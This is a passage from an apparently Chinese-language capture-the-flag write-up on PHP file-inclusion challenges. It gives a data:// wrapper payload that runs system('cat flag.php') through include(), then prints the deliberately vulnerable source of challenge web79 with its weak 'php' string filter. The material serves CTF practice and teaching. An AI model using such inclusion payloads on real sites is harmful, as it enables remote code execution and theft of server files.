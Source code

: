 payload:

> ?file=data://text/plain,<?php system("cat flag.php")?>

查看源代码，得到flag

![image-20241121192438056](./assets/image-20241121192438056.png)

#### web79

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:10:14
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:12:38
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```
